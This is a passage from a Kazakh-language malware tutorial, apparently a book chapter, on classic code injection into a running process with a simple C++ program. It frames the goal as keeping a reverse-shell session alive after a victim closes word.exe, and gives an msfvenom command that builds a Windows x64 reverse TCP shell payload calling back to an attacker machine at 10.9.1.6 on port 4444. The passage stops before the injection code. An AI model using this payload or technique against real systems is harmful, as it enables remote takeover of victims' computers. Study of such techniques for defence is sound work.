 \newpage
\subsection{4. процеске классикалық кодты енгізу. қарапайым C++ зиянды бағдарламасы (malware)}\label{4.  процеске классикалық кодты енгізу. қарапайым C++ зиянды бағдарламасы (malware)}    

﷽

![code injection](./images/6/2021-09-18_20-00.png){width="75%"}

Кодты енгізу туралы сөйлесейік. Кодты енгізу дегеніміз не? Ал біз неге олай істейміз?     

Кодты енгізу әдісі - бұл бір процесс, біздің жағдайда бұл біздің зиянды бағдарлама (malware), кодты басқа іске қосылған процеске енгізгендегі қарапайым әдістердің бірі.   

Мысалы, сізде зиянды бағдарлама (malware) бар, бұл фишингтік шабуылдан жасалған зиянды бағдарлама немесе сіз құрбанға жеткізе алған троян немесе ол сіздің кодыңызбен жұмыс істейтін кез келген нәрсе болуы мүмкін. Қандай да бір себептермен пайдалы жүктемені басқа процесте іске қосқыңыз келуі мүмкін.    

Мен мұнымен не айтқым келеді? Бұл мақалада біз троянның жасалуын қарастырмаймыз, бірақ мысалы, сіздің пайдалы жүктемеңіз шектеулі өмір сүру уақыты бар `word.exe` процесінің ішінде орындалды делік. Сізде қашықтағы кері байланыс шелл сәтті болды делік, бірақ сіз құрбаныңыздың `word.exe` файлын жабатынын білесіз, сондықтан бұл жағдайда сеансыңызды сақтағыңыз келсе, басқа процеске көшуіңіз керек.    

Бұл постта біз API debug-тің көмегімен пайдалы жүктемені енгізу болып табылатын классикалық әдісті талқылаймыз.    

Алдымен пайдалы жүкті дайындауды бастайық. Қарапайымдылық үшін біз Kali Linux жүйесінен `msfvenom`-нан алынған кері шелл жүктемесін қолданамыз.     

Шабуылдаушының машинасында:    

```bash
msfvenom -p windows/x64/shell_reverse_tcp 
LHOST=10.9.1.6 LPORT=4444 -f c
```

мұндағы `10.9.1.6` - біздің шабуылдаушы машинаның IP адресі, ал `4444` - тыңдаушыны кейін іске қосатын порт.   
